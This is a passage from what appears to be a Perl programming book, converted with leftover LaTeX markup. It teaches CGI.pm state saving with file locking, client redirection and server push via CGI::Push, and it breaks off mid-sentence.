\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=93.0mm, height=67.1mm, viewport=3mm 4mm 205mm 292mm]{image20.ps}
\includegraphics[bb=0mm 0mm 208mm 296mm, width=94.6mm, height=67.0mm, viewport=3mm 4mm 205mm 292mm]{image21.ps}and as if by magic, we now have two interactive forms and a welcome page, like this:

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=94.6mm, height=67.0mm, viewport=3mm 4mm 205mm 292mm]{image22.ps}

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent 

\noindent Saving and Loading CGI State

\noindent 

\noindent CGI is, by nature, stateless. Every request to a CGI script causes a completely new invocation of that

\noindent script, which has no memory of anything that's gone before. In order to propagate information from one invocation to the next, we need a way to save the state of the script. Conveniently, CGI.pm gives us the ability to save and subsequently load the state of a CGI script (that is, the parameters it was given). To

\noindent save state, we use the save() method, like this:

\noindent 

\noindent if (open (STATE,"$>$ \$state\_file")) \{

\noindent \$cgi-$>$save(STATE);

\noindent close STATE;

\noindent \}

\noindent 

\noindent Loading a saved state is easy -- we just pass a filehandle of a previously saved state to CGI.pm's new() method:

\noindent 

\noindent if (open (STATE,\$state\_file)) \{

\noindent \$cgi=new CGI(STATE);

\noindent close STATE;

\noindent \}

\noindent 

\noindent We can now use this to create CGI scripts that retain their state across successive client requests.

\noindent 

\noindent Try It Out : Working with States

\noindent Here's a simple example that records a message in a file and displays that message to the next caller. It also shows how co-operative file locking can be used to prevent conflicts between scripts trying to read and write a file at the same time:

\noindent 

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#state.plx

\noindent use warnings;

\noindent use CGI;

\noindent use Fcntl qw(:flock); \#for file locking symbols

\noindent 

\noindent my \$msgfile="/tmp/state.msg";

\noindent my \$cgi=new CGI;

\noindent 

\noindent print \$cgi-$>$header(),\$cgi-$>$start\_html("Stateful CGI Demo");

\noindent 

\noindent if (open (LOAD,\$msgfile)) \{

\noindent flock LOAD,LOCK\_SH; \#shared lock (not on windows)

\noindent my \$oldcgi=new CGI(LOAD);

\noindent flock LOAD,LOCK\_UN; \#release lock (not on windows)

\noindent close (LOAD);

\noindent 

\noindent if (my \$oldmsg=\$oldcgi-$>$param('message')) \{

\noindent print \$cgi-$>$p("The previous message was: \$oldmsg");

\noindent \}

\noindent \}

\noindent 

\noindent if (my \$newmsg=\$cgi-$>$param('message')) \{

\noindent print \$cgi-$>$p("The current message is: \$newmsg");

\noindent if (open (SAVE,"$>$ \$msgfile")) \{

\noindent flock SAVE,LOCK\_EX; \#exclusive lock (not on windows)

\noindent \$cgi-$>$save(SAVE);

\noindent flock SAVE,LOCK\_UN; \#release lock (not on windows)

\noindent \} else \{

\noindent print \$cgi-$>$font(\{-color=$>$'red'\},"Failed to save: \$!");

\noindent \}

\noindent \}

\noindent print \$cgi-$>$p("Enter a new message:");

\noindent print \$cgi-$>$startform(-method=$>$'GET'),

\noindent \$cgi-$>$textfield('message'), \#auto-filled from CGI parameter if sent

\noindent \$cgi-$>$submit(\{-value=$>$'Enter'\}),

\noindent \$cgi-$>$endform();

\noindent 

\noindent print \$cgi-$>$end\_html();

\noindent 

\noindent Our web page should look like this:

\noindent 

\noindent 
\includegraphics[bb=0mm 0mm 208mm 296mm, width=73.2mm, height=58.5mm, viewport=3mm 4mm 205mm 292mm]{image23.ps}

\noindent 

\noindent 

\noindent \textit{How It Works}

\noindent The first time this script is run, the state file will not exist. So the first open will fail, and no previous message will be displayed. No new message will have been entered yet either, since the form hasn't yet been seen by the user. Consequently, all the user will see is the blank form.

\noindent 

\noindent Second time a round, after the form has been filled in once, we still won't have a previous message, but we will have a new one. So the script will display the current message paragraph and the form.

\noindent 

\noindent In order to prevent other copies of our script accessing the state file while we are writing it we use Perl's

\noindent flock function to give ourselves an exclusive lock on the file, which we release again once we're done.

\noindent If any script is currently reading the file with a read lock, perl will wait at the flock SAVE,LOCK\_EX

\noindent line until the lock is removed and the file becomes writeable.

\noindent 

\noindent For CGI scripts that access disk-based files, this is a very good idea as it prevents CGI scripts treading

\noindent on each others' toes. Remember that a web server will start up several copies of the same script if several requests for it come in at the same time.

\noindent 

\noindent On the third iteration (and all subsequent ones) the state file exists, so the first open succeeds. A read lock is placed on the file with flock to ensure that nothing else is busy writing the file.

\noindent 

\noindent This lock is not exclusive, so multiple copies of the script can read the file at the same time. However, if

\noindent an exclusive lock has been established, perl will wait on the flock LOAD,LOCK\_RD line until the lock

\noindent is removed and the file becomes readable again.

\noindent 

\noindent The stored message is now displayed. If the form was filled in, then this is immediately replaced by the new message, and the form is displayed once again.

\noindent 

\noindent We can easily extend this principle to keep an ever-extending list of messages and implement a simple web log. If we added some sort of session control using \textbf{cookies}, we could also keep a special state file based on the cookie value for each user and use it to create a shopping cart application, for example.

\noindent This is considerably more useful, and we'll see how to generate and handle cookies later in the chapter.

\noindent 

\noindent Note that because the script could be called simultaneously by more than one user, we've used file locking to ensure that nobody steps on anyone else's toes. In this rather trivial example, it makes little

\noindent difference, since the only variable being stored gets overwritten. For more complex applications though, it's a good idea to use file locking whenever multiple accesses to the same script are possible, and there's state information to preserve.

\noindent 

\noindent Although it works, saving state in this fashion gets rather awkward for scripts of any complexity, since the script needs to reinitialize itself from scratch each time it's run.

\noindent 

\noindent Redirecting from a CGI Script

\noindent 

\noindent By changing the headers that we send back to the server, we can have a CGI script conditionally redirect the client to another page. This could be useful, for example, to redirect non-authenticated

\noindent clients to a login page if they try to access a members-only page. Rather conveniently, CGI.pm provides

\noindent a method for redirection:

\noindent 

\noindent if (\$logged\_in) \{

\noindent print \$cgi-$>$header();

\noindent ...

\noindent \} else \{

\noindent print \$cgi-$>$redirect("http://www.myserver.com/perl/login.plx");

\noindent \}

\noindent 

\noindent 

\noindent In this case we don't send a header with \$cgi-$>$header(), because the redirection itself is done with

\noindent headers. Note that relative URLs don't always work as we might expect. This is why the URL above uses a full protocol domain name rather than just specifying /perl/login.plx.

\noindent 

\noindent Regenerating Pages with Server Push

\noindent 

\noindent We  can  also  use  CGI  scripts  to  repeatedly  update  a  client  with  fresh  data,  like  cycling  an  image  or changing  a  message.  This  is  called  \textbf{server  push  }and  can  be  easily  achieved  in  Perl  using  the CGI::Push module.  This  is  a  specialized  subclass  of  the  CGI module,  which  is  designed  to  support server push CGI scripts.

\noindent 

\noindent In use, a CGI::Push object works in exactly the same way as a regular CGI object but provides two extra methods, do\_push() and push\_delay(). Here's how a CGI script can create a continually updating counter using CGI::Push:

\noindent 

\noindent \#!/usr/bin/perl

\noindent \#push.plx

\noindent use warnings;

\noindent use CGI::Push qw(:standard);

\noindent use strict;

\noindent 

\noindent my \$line="";

\noindent do\_push(-next\_page=$>$\textbackslash \&refresh);

\noindent 

\noindent sub refresh \{

\noindent my (\$cgi,\$count)=@\_; \#passed in by CGI::Push

\noindent 

\noindent my \$page=start\_html().p("The count is \$count");

\noindent if (length(\$line)$>$9) \{

\noindent \$line="";

\noindent \} else \{

\noindent \$line.="*";

\noindent \}

\noindent \$page.=p(\$line."\textbackslash n").end\_html();

\noindent return \$page;

\noindent \}

\noindent 

\noindent Since counting the number of times the page has been refreshed is a common requirement, CGI::Push

\noindent actually tracks this number, automatically passing it to our subroutine, so we don't need to maintain our own counter. Other persistent variables (\$line in the above example) should be initialized outside the subroutine first. Note that we don't print the page content ourselves, but instead pass it back to CGI::Push, which takes care of this for us.

\noindent 

\noindent If we don't specify a delay, then CGI::Push defaults to a delay of one second. We can specify it explicitly with the -delay argument:

\noindent 

\noindent \$cgi-$>$do\_push(-next\_page=$>$\textbackslash \&refresh,-delay=$>$60); \#every minute

\noindent 

\noindent As it is, this script will run forever, sending out a new HTML page once every minute. We might, however, want the script to end on a given page, which we can do by specifying the -last\_page argument. We can tell CGI::Push when the last page is due by passing an undef back from next\_page on the next to last iteration.

\noindent 

\noindent 

\noindent The following example is very similar to the previous one, but this time the refresh subroutine

